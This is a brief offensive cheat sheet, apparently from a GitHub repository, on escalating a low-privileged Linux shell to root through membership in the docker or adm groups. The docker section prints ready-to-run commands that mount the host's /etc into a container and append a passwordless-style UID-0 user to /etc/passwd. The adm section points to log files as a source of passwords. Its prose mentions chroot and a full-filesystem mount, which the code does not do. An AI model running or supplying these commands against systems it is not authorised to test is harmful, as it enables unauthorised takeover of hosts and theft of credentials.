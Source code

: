 # Groups that lead to ROOT

> If the low priv shell is member of one the following groups we can upgrade to root.

## docker

We can mount the full file system of the host to gain access to the full system then `chroot` to gain full privileges on the host:

```bash
docker run -v /etc/:/mnt -it alpine
cd /mnt
echo 'user:saltpasswd:0:0::/root:/bin/bash' >>passwd
tail passwd
su user
#type password and get root
```

## adm

```bash
We can see all the logs on /var/log. Might contain passwords.
```

More info:

* [Hackingarticles](https://www.hackingarticles.in/docker-privilege-escalation/)

* [Medium-Affix](https://medium.com/@Affix/privilege-escallation-with-docker-56dc682a6e17)
